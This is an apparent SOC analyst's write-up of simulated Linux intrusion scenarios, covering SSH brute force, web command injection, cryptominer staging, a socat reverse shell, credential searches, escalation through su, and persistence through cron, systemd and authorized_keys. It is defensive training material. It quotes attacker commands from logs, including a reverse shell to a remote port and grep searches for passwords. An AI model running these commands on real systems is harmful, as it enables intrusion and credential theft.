# Linux Threat Detection — Authentication, Intrusion and Persistence Investigations

## Executive Summary

This project documents simulated Linux security investigations involving unauthorized SSH access, web application exploitation, suspicious command execution, cryptominer deployment, privilege escalation, and persistence.

The investigations used Linux authentication logs, Nginx access logs, auditd telemetry, and system configuration artifacts to identify attacker behavior and reconstruct suspicious activity.

The analysis covered three areas:

- **Initial access:** SSH password-guessing activity, successful root authentication, and command injection against a web application.
- **Post-compromise activity:** System and security-tool discovery, suspicious script execution, staging in temporary directories, internal SSH reconnaissance, and cryptominer-related execution.
- **Privilege escalation and persistence:** Reverse-shell activity, credential discovery, transition to root through `su`, and modifications involving systemd services, cron jobs, local accounts, and SSH authorized keys.

The objective was to distinguish suspicious commands from confirmed system events, correlate evidence across available log sources, and identify practical detection opportunities for Linux security monitoring.

The scenarios were completed in a controlled training environment. Findings from separate scenarios are documented independently and should not be interpreted as one continuous intrusion.

## Investigation Scope

The case study focuses on identifying and interpreting malicious or suspicious activity on Linux systems.

| Investigation Area | Activities Examined | Primary Evidence |
| --- | --- | --- |
| Initial Access | SSH authentication attacks, successful root login, web command injection, reverse-shell preparation | Authentication logs, Nginx logs, auditd |
| Discovery and Execution | System reconnaissance, security-tool discovery, temporary staging, internal SSH enumeration, cryptominer execution | auditd process and command telemetry |
| Privilege Escalation and Persistence | Reverse shell, credential discovery, `su root`, systemd, cron, account creation, authorized-key modification | auditd records, authentication activity, persistence configuration |

### Investigation Objectives

The investigations sought to answer the following questions:

1. What events indicated potentially unauthorized access?
2. Which users, source addresses, processes, and commands were involved?
3. Could related events be correlated to reconstruct attacker behavior?
4. Which observations established successful execution or authentication?
5. What evidence supported persistence or privilege escalation?
6. What additional telemetry would be needed to validate uncertain outcomes?
7. How could the findings be translated into effective SOC detections?

## Evidence Sources and Analysis Methodology

### Linux Authentication Logs

Authentication evidence was used to investigate suspicious SSH activity, failed and successful login attempts, and privilege changes.

Relevant fields included source IP addresses, usernames, authentication results, and session-related information.

Authentication success was distinguished from subsequent attacker actions; a valid login event alone does not establish every activity performed during that session.

### Nginx Access Logs

Web server logs provided visibility into suspicious requests targeting the simulated TryPingMe application.

The investigation examined request paths and parameters to identify indications of command injection.

Nginx logs recorded the requests received by the application, while auditd evidence was used where available to determine whether the application subsequently launched suspicious commands.

### auditd Process Telemetry

Linux audit records were used to reconstruct command execution and process relationships.

Important investigative fields included executable paths, command arguments, user identifiers, effective user identifiers, and process context.

These records were particularly valuable for identifying activity that followed initial access, including discovery commands, reverse-shell execution, and privilege escalation.

### System Configuration Artifacts

Persistence-related evidence included changes involving:

- systemd service configurations
- cron scheduling
- local user accounts
- SSH `authorized_keys` files

These mechanisms were examined to determine how an attacker could maintain access after the original session ended.

### Investigation Methodology

The analysis followed a consistent process:

| Step | Analyst Activity |
| --- | --- |
| Identify | Locate suspicious authentication, web, process, or configuration events |
| Pivot | Examine source addresses, accounts, commands, and process identifiers |
| Correlate | Connect related events using timestamps, sessions, and process context |
| Assess | Separate observed activity from inferred attacker objectives |
| Document | Preserve relevant commands, screenshots, and findings |
| Recommend | Identify detection opportunities and visibility improvements |

### Evidence Standards

Each conclusion was based on the available artifacts rather than assumed attacker success.

For example:

- A suspicious web request does not independently prove that command injection succeeded.
- A reverse-shell command does not necessarily prove that a connection was established.
- A successful root login confirms authentication but does not independently establish the preceding credential-attack method.
- Creation of a persistence configuration does not automatically prove that it was successfully invoked later.
- An observed file or executable name does not independently establish its full capabilities.

Where the preserved evidence did not demonstrate an outcome, the report identifies the behavior as attempted, suspected, or requiring additional verification.

## Investigation Organization

The report is organized into three sections corresponding to the original Linux Threat Detection scenarios:

1. **Initial Access:** SSH authentication

## Initial Access Investigations

### Scenario 1 — Suspicious SSH Authentication and Root Access

#### Investigation Context

The first scenario involved suspicious SSH authentication activity originating from the external IP address `91.224.92.79`.

The investigation focused on identifying repeated authentication failures, determining whether the activity resulted in a successful login, and establishing which Linux account was accessed.

The authentication pattern was consistent with an SSH password-guessing attempt targeting a privileged account.

#### SSH Authentication Analysis

Linux authentication logs were reviewed for failed SSH login attempts and subsequent successful authentication events.

The primary investigative indicators included:

| Indicator | Observation |
| --- | --- |
| Source IP | `91.224.92.79` |
| Targeted account | `root` |
| Service | SSH (`sshd`) |
| Suspicious behavior | Repeated authentication failures |
| Confirmed outcome | Successful root authentication |



*Figure 1 — Linux authentication logs showing repeated failed SSH password attempts against `root`, `roy`, and `user`, originating from multiple external IP addresses.*

Repeated failed authentication events can indicate password guessing, particularly when they target privileged accounts and originate from an unexpected external address.

However, authentication failures alone do not establish that credentials were compromised. The investigation therefore examined subsequent authentication events to identify a confirmed access outcome.

#### Successful Root Authentication

The preserved authentication evidence showed a successful SSH login to the `root` account from `91.224.92.79`.



*Figure 2 — Authentication log confirming a successful password-based SSH login to `root` from `91.224.92.79:51555` on August 21, 2025, at 17:10:08 UTC.*

The failed-authentication evidence also recorded repeated attempts against `root` from `91.224.92.79` shortly before the successful login from the same source address.

This source-address and account correlation strengthens the assessment of a successful password-guessing sequence. However, the log evidence alone does not reveal the method by which the correct password was obtained or establish the full scope of post-login activity.

This provided stronger evidence than failed-login activity alone because it established that the system accepted authentication for the privileged account.

The sequence was consistent with a potential successful password-guessing attack.

However, a successful login following multiple failures does not independently establish that the same actor performed every attempt or that the correct password was obtained through brute force.

#### Analyst Assessment

**Assessment: Suspicious SSH authentication with confirmed root access.**

The combination of repeated authentication failures and successful privileged authentication warranted investigation for potential unauthorized access.

The evidence established successful root authentication from the identified source address. Additional session and command telemetry would be needed to determine what the authenticated user subsequently executed.

#### Detection Opportunities

- Detect repeated SSH authentication failures from a common source address.
- Monitor unsuccessful login attempts targeting `root` and other privileged accounts.
- Correlate repeated authentication failures with later successful SSH authentication.
- Alert on successful direct root logins from unexpected external addresses.
- Examine session activity following suspicious successful authentication to identify further compromise indicators.

### Scenario 2 — TryPingMe Web Command Injection

#### Investigation Context

The second scenario involved suspicious HTTP requests targeting the TryPingMe web application.

The investigation correlated Nginx access logs with Linux auditd telemetry to determine whether the requests merely attempted command injection or resulted in operating-system command execution.

This distinction was important because a malicious-looking web request does not independently prove that the application executed its contents.

#### Suspicious Web Requests

Nginx access logs recorded requests containing command-injection syntax in parameters supplied to the TryPingMe application.

The request content was consistent with an attempt to cause the application to execute system commands instead of processing only the intended input.

The HTTP logs established that the requests reached the web server, but did not independently prove successful exploitation.



*Figure 3 — Nginx access log showing a request to `/ping` with the injected `;cat /opt/trypingme/main.py` command in the `host` parameter. The HTTP response returned status 200.*

#### Confirmed Command Execution

Linux auditd telemetry provided additional visibility into process execution occurring after the suspicious requests.

The audit records associated attacker-supplied commands with processes launched through the web application's execution context.

This correlation supported an assessment that the command injection resulted in operating-system command execution, rather than remaining an unsuccessful request.

auditd recorded successful execution of `/usr/bin/whoami`
following a shell invocation containing injected command syntax.

The recorded shell command included:

`ping -c 2 ;whoami`



*Figure 4 — auditd execution records showing `/bin/sh -c` invoking the injected `whoami` command, with successful execution recorded for `/usr/bin/whoami`.*

#### Reverse-Shell Activity

The investigation also identified Python command execution associated with reverse-shell behavior.

The preserved command evidence was truncated, limiting reconstruction of the complete Python command and its connection parameters.

The available evidence supported suspicious Python execution consistent with reverse-shell preparation or attempted execution. It did not independently confirm that a remote interactive session was successfully established.

Further auditd process records revealed commands executed
through the web application's shell context, including:

- `whoami`
- `ls`
- `pwd`
- `cat /opt/trypingme/main.py`
- A Python command importing `socket`, `subprocess`, and `os`

The Python command began constructing a TCP socket and
initiating a connection, consistent with reverse-shell behavior.



*Figure 5 — auditd process records showing injected shell commands followed by a truncated Python command consistent with an attempted reverse shell.*

The Python command was truncated in the preserved evidence.
The full remote destination, completed payload, and successful
establishment of a reverse-shell session could not be verified.

#### Analyst Assessment

**Assessment: Successful web command injection with observed command execution and suspected reverse-shell activity.**

The Nginx logs demonstrated attacker-controlled input reaching the application, while auditd records provided stronger evidence of command execution on the Linux host.

The reverse-shell-related activity increased the severity of the incident, although successful external session establishment was not independently confirmed.

#### Detection Opportunities

- Monitor web application requests for unexpected shell metacharacters and command separators.
- Correlate suspicious HTTP requests with shell or scripting processes spawned by web server processes.
- Alert on web application service accounts launching interactive shells or unexpected interpreters.
- Monitor Python execution involving suspicious network-communication patterns.
- Preserve both web access logs and auditd process events to support cross-source investigation.

## Discovery and Cryptominer Activity

### Scenario 3 — Suspicious Shell Script and System Discovery

#### Investigation Context

This scenario examined a suspicious shell script named `debug.sh` that executed Linux discovery commands.

The investigation focused on identifying the commands associated with the script and determining whether the behavior was consistent with ordinary system troubleshooting or post-compromise reconnaissance.

#### System Discovery

The investigation began with auditd recording `hostname` execution by the `itsupport` user.

The initial process had PID `3772` and parent PID `3771`. Tracing the parent through auditd identified:

`bash debug.sh`

The parent process was associated with `/home/itsupport/debug.sh`.

Rather than treating the `hostname` command as a standalone detection, I examined the other processes spawned by the same parent PID.

The script executed several discovery commands:

| Command | Information Collected |
| --- | --- |
| `hostname` | System hostname |
| `uname -a` | Operating system and kernel information |
| `lscpu` | CPU architecture and characteristics |
| `uptime` | System uptime |
| `free -h` | Memory availability |
| `df -hT` | Filesystem capacity and types |
| `ps -eo pid,ppid,cmd,%mem,%cpu` | Running processes and resource consumption |



*Figure 6 — auditd PROCTITLE records showing system-enumeration commands executed by the `debug.sh` process tree.*

The commands were executed in rapid succession, consistent with automated system profiling.

The most important investigative finding was the shared process ancestry: multiple ordinary Linux utilities were launched from one shell script rather than being unrelated administrative commands.

This provided a stronger basis for assessing the behavior than the initial `hostname` event alone.

#### Resource and Process Enumeration

The script also examined memory consumption and CPU utilization using `ps`, sorting process output by resource usage.

These commands can support legitimate troubleshooting, performance diagnostics, or attacker reconnaissance.

In this scenario, the rapid sequence of discovery commands made the script worth investigating, but the available auditd evidence did not independently establish malicious intent.

The later cryptominer investigation contains separate security-tool discovery activity and is documented in Scenario 4.

#### Analyst Assessment

**Assessment: Suspicious shell-script execution and system discovery.**

The observed activity was consistent with post-compromise reconnaissance, although the discovery commands alone did not establish a successful intrusion, privilege escalation, or lateral movement.

#### Detection Opportunities

- Monitor unexpected shell scripts executing multiple system-discovery commands.
- Correlate discovery processes with a common parent script or execution session.
- Investigate security-tool enumeration performed outside approved administration workflows.
- Use auditd process records to identify command arguments, executable paths, and execution context.
- Prioritize discovery activity following suspicious authentication or remote-access events.

### Scenario 4 — SSH Compromise and Cryptominer Activity

#### Investigation Context

This scenario investigated suspicious activity on a Linux host following successful SSH authentication to the `root` account.

The investigation focused on reconstructing the command sequence associated with the compromised session, including system reconnaissance, security-tool discovery, suspicious file staging, internal SSH exploration, and execution of a suspected cryptominer.

The analysis used Linux authentication records and auditd command telemetry to connect the initial access event with subsequent host activity.

#### Successful Root SSH Access

Authentication logs recorded a successful SSH login to the `root` account.

This established that the system accepted a privileged remote session. The surrounding scenario was consistent with credential-based compromise, but the preserved authentication screenshot did not independently demonstrate the preceding password-guessing attempts.

The successful authentication event was therefore treated as the confirmed access point for further investigation rather than definitive proof of the initial credential-acquisition method.



*Figure 7 — Linux authentication logs showing six successful password-based SSH logins to `root` from `45.9.148.125` on September 11, 2025, between 21:13 and 21:26 UTC.*

#### Post-Compromise System Discovery

Following root authentication, auditd records showed commands associated with host reconnaissance.

The activity involved gathering information about the operating environment and identifying processes or software that could affect subsequent execution.

Discovery commands can occur during legitimate administration. However, their appearance within a suspicious privileged session increased the significance of the activity.

#### Security-Tool Discovery

The investigation identified commands consistent with checking for security or monitoring software.

This type of reconnaissance can help an attacker determine whether endpoint defenses are present before deploying additional tools.

The observed commands supported a security-tool discovery assessment, but did not independently confirm that monitoring software was disabled or bypassed.

#### Suspicious File Staging

The command sequence also involved a temporary directory:

`/tmp/.apt`

The directory name resembled a system package-management location, while its placement under `/tmp` was consistent with attacker-controlled staging.

The use of a hidden-looking directory alone does not establish malicious activity, but it can be meaningful when correlated with suspicious authentication, reconnaissance, and subsequent executable activity.

#### Internal SSH Reconnaissance

Additional commands were consistent with attempts to identify or access other systems through SSH.

This activity raised concern about potential lateral movement beyond the originally accessed Linux host.

However, command execution alone did not establish that authentication to another system succeeded or that a second host was compromised.

#### Suspected Cryptominer Execution

The investigation identified execution involving an executable named:

`kernupd`

The simulated scenario associated this executable with cryptocurrency-mining activity.

The preserved process evidence supported execution of the suspicious program. Its cryptocurrency-mining functionality was based on the scenario context and was not independently established through binary analysis or confirmed mining-pool communications.

#### Reconstructed Attack Progression

The auditd `PROCTITLE` records provided a chronological view of the commands executed during the suspicious activity.

| Time (UTC) | Observed Activity | Investigative Significance |
| --- | --- | --- |
| 21:13 | `groups`, `id`, `last`, `ps`, `ip a` | Account, session, process, and network discovery |
| 21:13 | `egrep` checks for `falcon`, `sentinel`, and `ds_agent` | Security-software discovery |
| 21:14 | `cat /proc/cpuinfo`, `free -m`, `lscpu`, `lspu`, `mkdir -apt` | Resource enumeration and suspicious commands |
| 21:14 | `tar xzf kernupd.tar.gz -C /tmp/.apt` | Extraction of the suspected payload into a temporary staging directory |
| 21:15 | `nohup bash -c` with `nc -zvw1` against `10.10.12.1`–`10.10.12.10` on port `22` | Internal SSH port reconnaissance |
| 21:16 | `chmod +x /tmp/.apt/kernupd/kernupd` | Preparation of the staged executable |
| 21:16 | `nohup /tmp/.apt/kernupd/kernupd` | Execution of the suspected cryptominer |



*Figure 8 — auditd PROCTITLE records showing security-tool discovery, host reconnaissance, payload extraction, internal SSH port scanning, and execution of `kernupd`.*

The command sequence suggests a progression from environment reconnaissance to payload deployment.

The internal port scan used `nc` to check SSH connectivity across `10.10.12.1` through `10.10.12.10`. This establishes reconnaissance activity, not successful lateral movement.

The final `nohup` command shows an attempt to launch the suspected cryptominer. The preserved audit records do not independently establish sustained mining activity, resource utilization, or communication with a mining pool.

#### Analyst Assessment

**Assessment: Suspicious privileged SSH access followed by reconnaissance, staging, and cryptominer-related execution.**

The combination of root authentication, discovery commands, temporary-directory activity, and execution of `kernupd` was consistent with a Linux host compromise involving potential resource hijacking.

The evidence supported the observed access and command sequence, while successful lateral movement and actual cryptocurrency-mining activity would require additional verification.

#### Detection Opportunities

- Alert on unexpected successful SSH authentication to `root`.
- Correlate privileged SSH sessions with unusual discovery and executable activity.
- Monitor commands that enumerate security tools or monitoring processes.
- Detect suspicious executable staging under `/tmp`, particularly in directories resembling legitimate system components.
- Investigate unusual internal SSH activity originating from compromised or privileged sessions.
- Monitor unexpected executable launches and sustained resource consumption to identify potential cryptomining.
- Correlate authentication, auditd, filesystem, and network telemetry to reconstruct post-compromise behavior.

## Privilege Escalation and Persistence

### Scenario 5 — Reverse Shell and Privilege Escalation

#### Investigation Context

This scenario investigated suspicious Linux activity involving a reverse shell, credential discovery, and escalation from a lower-privileged service account to the `root` account.

The investigation used auditd process telemetry to reconstruct the command sequence and identify changes in execution privileges.

The objective was to determine how the attacker attempted to obtain interactive access and whether the available evidence confirmed elevated privileges.

#### Suspicious Reverse-Shell Activity

#### Reconstructed Process Ancestry

Auditd recorded a suspicious `socat` command executed by the `svctrypingme` service account:

```bash
socat TCP:10.14.105.255:1337 EXEC:sh,pty,stderr,setsid,sigint,sane
```

The command was consistent with establishing an interactive reverse shell to `10.14.105.255` on TCP port `1337`.

Using PID and PPID relationships, the investigation reconstructed the following process chain:

```text
systemd (PID 1)
    └── python3.12 (PID 2526, svctrypingme)
         └── /bin/sh (PID 2543)
              └── socat (PID 2545)
```

| Process | PID | Investigative Significance |
| --- | --- | --- |
| Python service | `2526` | Service process operating as `svctrypingme` |
| `/bin/sh` | `2543` | Shell executing the injected command |
| `socat` | `2545` | Reverse-shell utility targeting `10.14.105.255:1337` |



*Figure 9 — auditd process records linking a Python service process to shell execution and a `socat` reverse-shell command under the `svctrypingme` account.*

The execution records showed `success=yes`, confirming the process-execution events succeeded.

The collected audit record did not independently display the exact application path `/opt/trypingme/main.py`. The TryPingMe application identity was supplied by the training scenario, while the process ancestry was established through auditd.

The command and process relationships strongly supported reverse-shell activity; the preserved execution records alone did not independently establish the network session's duration or full interactive contents.

Auditd telemetry identified `socat` execution associated with reverse-shell behavior.

The suspicious process originated within the `svctrypingme` service-account context.

Unlike ordinary network administration, a reverse shell can provide an external operator with access to a command interpreter on the compromised system.

The command evidence was examined for the connection destination, process context, and executable arguments.

Where available, network telemetry would be needed to independently verify successful connection establishment and the remote session's duration.

#### Credential Discovery

#### Credential Search Activity

After reverse-shell execution, auditd recorded commands searching for potentially sensitive information:

```bash
grep -iR key .
grep -iR pass .
```

Both commands executed under the `svctrypingme` account.

The searches were consistent with attempts to locate credentials, passwords, API keys, or other secrets within accessible files.

The simulated investigation indicated that a root credential was located in an environment file. The credential value is intentionally excluded from the public documentation.

#### Confirmed Root Shell

Further auditd records established a successful privilege transition:

| Observation | Value |
| --- | --- |
| Command | `su root` |
| Process ID | `2554` |
| Original user | `svctrypingme` |
| Effective user | `root` |
| Subsequent process | `/usr/bin/bash` |
| Bash PID | `2570` |
| Bash UID / EUID | `root` / `root` |



*Figure 10 — auditd evidence showing credential-discovery commands, `su root`, and subsequent execution of a Bash shell with root UID and EUID.*

The root-owned Bash process provided direct evidence that the privilege transition succeeded.

The observed technique was credential-based escalation using `su`, not exploitation of a demonstrated software vulnerability.

Following the reverse-shell activity, additional commands indicated attempts to locate information that could support privilege escalation.

Credential discovery is significant because an attacker operating under a restricted account may attempt to obtain credentials belonging to more privileged users.

The investigation examined the relationship between the suspicious session, discovery commands, and subsequent authentication activity.

#### Root Privilege Escalation

The evidence identified a transition from the `svctrypingme` account to `root` through the `su` utility.

Auditd user-identity and process records provided important context for determining the account and privileges under which commands executed.

The observed UID and EUID values supported successful execution in the root context.

This was consistent with credential-based privilege escalation rather than exploitation of an identified software vulnerability.

#### Analyst Assessment

**Assessment: Suspicious reverse-shell activity followed by credential discovery and confirmed root privilege escalation.**

The evidence supported a transition from a lower-privileged service account to root.

The available records did not independently establish how the credentials were originally obtained or confirm a software vulnerability was exploited.

#### Detection Opportunities

- Detect unexpected execution of `socat` by application service accounts.
- Monitor command interpreters launched from web application or service processes.
- Correlate reverse-shell-related commands with subsequent credential-access activity.
- Alert on unexpected `su` authentication or privilege transitions into `root`.
- Examine auditd UID, EUID, and process ancestry to distinguish attempted escalation from confirmed privileged execution.
- Investigate privileged command execution originating from service accounts outside approved administrative workflows.

### Scenario 6 — Linux Persistence Mechanisms

#### Investigation Context

The final scenario investigated suspicious configuration changes following privileged access to a Linux system.

The investigation focused on identifying mechanisms that could allow an attacker to regain execution or access after the original session ended.

Four persistence-related activities were examined:

1. Creation of a systemd service.
2. Modification of cron to execute a program at startup.
3. Creation of an additional privileged local account.
4. Modification of the root user's SSH authorized keys.

These mechanisms were examined independently to establish which changes were visible in the preserved evidence and what additional validation would be required.

#### Systemd Service Persistence

The investigation identified a systemd service named `tux.service`.

The service configuration was associated with an attempt to establish persistent execution through the Linux service manager.

Systemd services can execute programs automatically based on their configured startup behavior. When abused, they provide a means of maintaining execution beyond the original interactive session.

The presence of a suspicious service configuration supported a persistence assessment, although the preserved evidence did not independently confirm that the associated payload executed after a reboot.

#### Cron-Based Persistence

Additional evidence identified a cron entry configured to execute a program when the system starts:

```text
@reboot /usr/sbin/phoenix
```

The `@reboot` directive instructs cron to launch the specified command when the cron daemon starts.

The entry therefore represented a potential persistence mechanism involving the executable `/usr/sbin/phoenix`.

The observed configuration did not independently prove that the executable subsequently ran or that the payload remained functional.



*Figure 11 — Linux persistence evidence showing the `tux.service` systemd configuration and a cron `@reboot` entry referencing `/usr/sbin/phoenix`.*

#### Privileged Local Account Creation

The investigation identified activity associated with creation of a local account named `koichi`.

The scenario also involved assigning elevated privileges to the account.

An attacker-controlled privileged account can provide an alternative authentication path even if the original compromised credentials are changed.

The investigation examined the account-management commands and available configuration evidence to determine how the account could be used for persistence.

#### SSH Authorized-Key Modification

The final persistence mechanism involved changes to:

`/root/.ssh/authorized_keys`

This file defines public keys permitted to authenticate as root through SSH, subject to the system's SSH configuration.

Adding an attacker-controlled public key could provide an alternative authentication method that does not require the original account password.

The preserved evidence supported an authorized-key modification attempt, but did not include the complete key material or independently confirm a subsequent successful SSH login using the new key.



*Figure 12 — Linux account-management and SSH authorized-key activity associated with the `koichi` account and `/root/.ssh/authorized_keys`.*

#### Analyst Assessment

**Assessment: Multiple persistence mechanisms targeting service execution, scheduled execution, privileged authentication, and SSH access.**

